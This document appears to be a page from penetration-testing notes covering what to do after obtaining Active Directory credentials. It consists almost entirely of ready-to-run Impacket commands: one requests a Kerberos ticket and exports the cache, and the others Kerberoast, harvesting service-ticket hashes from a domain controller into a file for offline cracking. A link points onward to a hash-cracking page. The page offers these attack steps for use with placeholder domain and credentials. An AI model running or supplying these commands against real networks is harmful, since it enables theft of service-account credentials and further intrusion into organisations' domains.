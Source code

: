 # Got Credentials
## Kerberos Authentication
```bash
impacket-getTGT domain.local/username:password

export KRB5CCNAME=username.ccache
```

## Kerberoasting
```bash
impacket-GetUserSPNs -request domain.local/username:password -dc-ip domain.local -outputfile hashes.kerbroast

impacket-GetUserSPNs -request domain.local/username -dc-ip domain.local -k -no-pass -outputfile hashes.kerberoast
```

Got Hash: [Next](cracking-hashes.md#spn)